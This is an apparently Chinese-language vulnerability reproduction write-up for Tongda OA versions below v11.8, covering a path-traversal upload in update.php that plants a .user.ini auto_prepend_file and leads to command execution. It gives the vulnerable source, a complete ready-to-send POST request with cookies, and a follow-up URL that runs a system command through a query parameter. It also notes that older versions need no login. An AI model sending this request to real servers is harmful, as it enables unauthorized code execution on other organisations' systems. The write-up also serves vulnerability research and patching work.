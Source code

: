 # 通达OA v11.8 update.php 后台文件包含命令执行漏洞

## 漏洞描述

通达OA v11.8以下存在文件上传接口，可上传 .user.ini 文件包含有PHP语句的文件导致命令执行

## 漏洞影响

<a-checkbox checked>通达OA < v11.8</a-checkbox></br>

## 漏洞复现

这里使用的环境为通达 v11.6版本

出现漏洞的文件为 `webroot/general/hr/manage/staff_info/update.php`

```php
<?php

include_once "inc/auth.inc.php";
include_once "inc/utility_all.php";
include_once "inc/utility_file.php";
include_once "inc/utility_field.php";
include_once "inc/utility_cache.php";
include_once "general/system/log/annual_leave_log.php";
if (strstr($BYNAME, "/") || strstr($BYNAME, "\\") || strstr($BYNAME, "..")) {
	Message(_("错误"), _("OA用户名包含非法字符！"));
	exit();
}

include_once "inc/header.inc.php";
echo "\r\n<body class=\"bodycolor\">\r\n";
echo "\r\n<body class=\"bodycolor\">\r\n";
$PHOTO_NAME0 = $_FILES["ATTACHMENT"]["name"];
$ATTACHMENT = $_FILES["ATTACHMENT"]["tmp_name"];

if ($PHOTO_NAME0 != "") {
	$FULL_PATH = MYOA_ATTACH_PATH . "hrms_pic";

	if (!file_exists($FULL_PATH)) {
		@mkdir($FULL_PATH, 448);
	}

	$PHOTO_NAME = $USER_ID . substr($PHOTO_NAME0, strrpos($PHOTO_NAME0, "."));
	$FILENAME = MYOA_ATTACH_PATH . "hrms_pic/" . $PHOTO_NAME;
	td_copy($ATTACHMENT, $FILENAME);

	if (file_exists($ATTACHMENT)) {
		unlink($ATTACHMENT);
	}

	if (!file_exists($FILENAME)) {
		Message(_("附件上传失败"), _("原因：附件文件为空或文件名太长，或附件大于30兆字节，或文件路径不存在！"));
		Button_Back();
		exit();
	}
}
```

![img](../../../.vuepress/public/img/tongdaoa-30.png)

在这里参数 `$USER_ID` 是可控的，并且无过滤危险符号就拼接进去了，那我们传入 `../../../` 我们就可以任意文件上传了

由于通达OA 的文件上传限制的死死的，所以我们可以通过利用 PHP的 `.user.ini` 文件来包含其他文件，这里是可以用于包含PHP语句的文件的，所以我们上传文件内容为

```plain
auto_prepend_file=ttt.log
```

请求包为

```plain
POST /general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/.user HTTP/1.1
Host: 192.168.1.105
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------17518323986548992951984057104
Content-Length: 365
Connection: close
Cookie: USER_NAME_COOKIE=admin; OA_USER_ID=admin; PHPSESSID=kqfgar7u3c0ang0es41u3u67p4; SID_1=a63eb31
Upgrade-Insecure-Requests: 1

-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="ATTACHMENT"; filename="ttt.ini"
Content-Type: text/plain

auto_prepend_file=ttt.log
-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="submit"

提交
-----------------------------17518323986548992951984057104--
```

其中 `USER_ID=../../general/reportshop/workshop/report/attachment-remark/.user` 为上传路径

这里我们简单知道了上传方式，那我们就通过 `.user.ini文件` 包含恶意文件

![img](../../../.vuepress/public/img/tongdaoa-38.png)



现在已经成功上传了恶意文件

```
 /general/reportshop/workshop/report/attachment-remark/form.inc.php?ttt=ipconfig 
```





![img](../../../.vuepress/public/img/tongdaoa-39.png)



<a-checkbox checked>在 v11.6中 上传的位置并没有限定所以可以上传在方便访问的目录(不需要登录)</a-checkbox></br>

<a-checkbox checked>而 v11.8中则有目录名的限制需要目录带有 webroot 和 attachment</a-checkbox></br>



![img](../../../.vuepress/public/img/tongdaoa-35.png)



![img](../../../.vuepress/public/img/tongdaoa-34.png)